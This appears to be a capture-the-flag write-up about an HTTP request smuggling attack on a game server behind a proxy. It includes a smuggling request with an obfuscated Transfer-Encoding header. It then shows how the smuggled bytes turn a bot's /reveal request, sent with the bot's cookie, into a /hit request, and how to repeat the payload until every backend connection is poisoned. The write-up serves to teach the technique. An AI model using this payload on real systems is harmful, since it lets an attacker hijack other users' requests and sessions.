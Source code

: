 
```
GET /game-state HTTP/1.1
Host: 127.0.0.1:8001
Content-Length: 30
Connection: keep-alive
Transfer-Encoding:[\x0b]chunked

0
```


This leaves the remainder of the request,

```
GET /hit HTTP/1.1
X-Foo:
```

still in the TCP Receive Window of the game server. What happens if the bot sends its request now? What would the stream of data look like in the TCP pipe?


```
GET /hit HTTP/1.1
X-Foo:GET /reveal HTTP/1.1
Host: proxy:1080
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: player_id=9576b07a-88b5-4df0-94a0-39ded4ee47d2


```


When the server is ready to process its next request, it reads the above as one full HTTP request, a GET request to `/hit` from the bot's player ID. We've successfully tampered with the bot's request!


### One Possible Pitfall

Just sending this payload once will not work. Looking at the edgeshark capture, we can see that our TCP stream is closing right after we send our payload, and the GET request to `/reveal` doesn't use the same stream. 


![Stream capture](/img/tgbs/stream.png)


The issue is that Gunicorn spawns multiple threads per worker, so smuggling one of them won't be enough. The simple workaround here is to send our payload to the proxy many times to ensure that all the TCP streams get polluted with our payload.


### Final Solution

All we have to do is wait until its our move, either hit or stand, and run our solve script right before the bot sends in the request to reveal.
